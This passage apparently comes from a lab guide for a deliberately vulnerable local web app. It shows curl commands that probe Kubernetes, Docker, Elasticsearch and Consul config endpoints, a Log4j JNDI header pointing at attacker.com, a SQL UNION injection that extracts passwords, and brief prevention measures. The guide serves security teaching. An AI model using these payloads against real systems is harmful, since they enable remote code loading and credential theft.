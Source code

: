 #### Step 2: Advanced Configuration Discovery
**Objective:** Discover sensitive configuration files in distributed systems

**Using curl for distributed system reconnaissance:**
```bash
# Kubernetes API server discovery
curl "http://localhost:5000/api/vuln/data-exposure-advanced?path=/.well-known/openid_configuration"

# Docker registry API
curl "http://localhost:5000/api/vuln/data-exposure-advanced?path=/v2/_catalog"

# Elasticsearch cluster info
curl "http://localhost:5000/api/vuln/data-exposure-advanced?path=/_cluster/health"

# Consul KV store
curl "http://localhost:5000/api/vuln/data-exposure-advanced?path=/v1/kv/?recurse"
```

#### Step 3: Advanced Log Analysis and Data Mining
**Objective:** Extract sensitive information from application logs

**Using curl for log exploitation:**
```bash
# Log4j exploitation
curl "http://localhost:5000/api/vuln/data-exposure-advanced" \
  -H "User-Agent: \${jndi:ldap://attacker.com/a}"

# Log injection for data extraction
curl "http://localhost:5000/api/vuln/data-exposure-advanced?search=admin' UNION SELECT password FROM users--"

# Debug log exposure
curl "http://localhost:5000/api/vuln/data-exposure-advanced?debug=true&level=ALL"
```

### Advanced Prevention Measures
1. Implement sophisticated access control for metadata services
2. Use secrets management systems like HashiCorp Vault
3. Implement log sanitization and sensitive data detection
4. Use distributed configuration management with encryption
5. Implement advanced monitoring for unusual data access patterns

---

## 6. XXE with Out-of-Band Exploitation

### Vulnerability Description
Advanced XML External Entity attacks using out-of-band techniques for data exfiltration when direct output is not available.

### Impact
- Advanced data exfiltration through DNS/HTTP channels
- Internal network reconnaissance through blind XXE
- Advanced file system enumeration
- Cloud service exploitation through XXE
